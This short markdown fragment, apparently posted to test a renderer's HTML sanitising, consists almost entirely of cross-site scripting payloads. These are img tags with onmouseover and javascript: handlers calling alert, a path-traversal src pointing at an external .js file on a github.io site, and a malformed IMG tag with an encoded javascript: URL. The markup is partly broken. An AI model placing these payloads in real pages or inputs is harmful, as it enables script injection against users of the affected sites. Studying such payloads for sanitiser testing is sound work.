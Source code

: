 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" id="\"javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()

